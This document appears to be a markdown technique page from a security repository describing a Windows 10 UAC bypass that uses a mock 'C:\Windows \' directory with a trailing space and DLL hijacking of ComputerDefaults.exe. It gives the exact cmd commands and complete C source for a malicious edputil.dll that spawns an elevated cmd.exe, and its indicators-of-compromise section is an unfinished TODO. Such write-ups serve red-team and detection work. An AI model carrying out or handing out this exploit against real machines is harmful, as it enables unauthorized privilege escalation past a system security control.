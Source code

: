 # Mock Folder + Trusted Executable DLL Hijacking
## Summary

Certain executables within the Windows System32 directory are permitted to run with elevated privileges, bypassing UAC unless UAC is set to it's maximum setting. Creating a "Windows " directory, with the space at the end, will confuse the check to ensure that the trusted executable is running from within the System32 directory, and provides the ability to perform a DLL hijack. There is a series of confirmed DLL hijack candidates, in addition to more details on this exploit, that can be found [here](https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows).

## Prerequisites

- Windows 10 with a low-integrity process running under a LOCAL administrators account.
- The ability to compile C code that can target Windows DLL's

## Setup

N/A

## Execution

### Method 1 - ComputerDefaults.exe + edputil.dll

The following commands need to be ran using cmd.exe. It's also important that you do not attempt to `cd` into the directory, it will not work and will route to the normal Windows directory.

Step 1: Create the mock directory structure:

```cmd
mkdir "C:\Windows \"
mkdir "C:\Windows \System32\"
```

Step 2: Copy the target executable into the directory:

```cmd
copy C:\Windows\System32\ComputerDefaults.exe "C:\Windows \System32\ComputerDefaults.exe"
```

Step 3: For this method, the function required for edputil.dll is DllMain, modify and compile the following C code and name it as edputil.dll:

```c
#include <windows.h>

void domything()
{
	WinExec("cmd.exe", 1);
}

BOOL WINAPI DllMain(HINSTANCE h, DWORD d, LPVOID l)
{
	switch (d)
	{
		case DLL_PROCESS_ATTACH:
			domything();
			break;
		default:
			break;
	};

	return TRUE;
}
```

Then, move the DLL into the mock System32 directory. Your final directory structure should look like this:

![image](./images/Pasted%20image%2020240702162950.png)

Step 4: Execute the trusted binary:

```cmd
"C:\Windows \System32\ComputerDefaults.exe"
```

![image](./images/Pasted%20image%2020240702162926.png)

#### Indicators of Compromise

TODO